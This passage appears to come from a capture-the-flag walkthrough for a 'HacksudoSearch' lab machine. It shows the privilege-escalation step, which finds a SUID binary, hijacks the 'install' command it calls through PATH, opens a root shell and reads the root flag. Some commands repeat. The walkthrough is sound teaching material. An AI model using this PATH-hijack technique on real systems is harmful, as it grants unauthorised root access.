





5. Privilege Escalation (Second flag)
1. Checked for any SUID binaries.
$find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
Output:

There's a file “searchinstall” that can lead us to the root shell.
2. Let's see the content of the file.
hacksudo@HacksudoSearch:/$cd /home/hacksudo/search/tools/
hacksudo@HacksudoSearch:/$ls -al
hacksudo@HacksudoSearch:/$cat searchinstall.c
hacksudo@HacksudoSearch:/$ls -al
hacksudo@HacksudoSearch:/$cat searchinstall.c
Output:


You can see above, the binary runs a binary “install” that is present in the PATH.
3 Create a bash file with ‘install’ name , give it executable permission and modified the $PATH variable. Then run the “searchinstall” file.
hacksudo@HacksudoSearch:~/search/tools$echo '/bin/bash -i' > install
hacksudo@HacksudoSearch:~/search/tools$chmod +x install
hacksudo@HacksudoSearch:~/search/tools$./searchinstall
hacksudo@HacksudoSearch:~/search/tools$chmod +x install
hacksudo@HacksudoSearch:~/search/tools$./searchinstall
Output:

You're “root”.
4. Show the flag.
root@HacksudoSearch:~/search/tools#cd /root
root@HacksudoSearch:/root#ls
root@HacksudoSearch:/root#cat root.txt
root@HacksudoSearch:/root#ls
root@HacksudoSearch:/root#cat root.txt
Output:
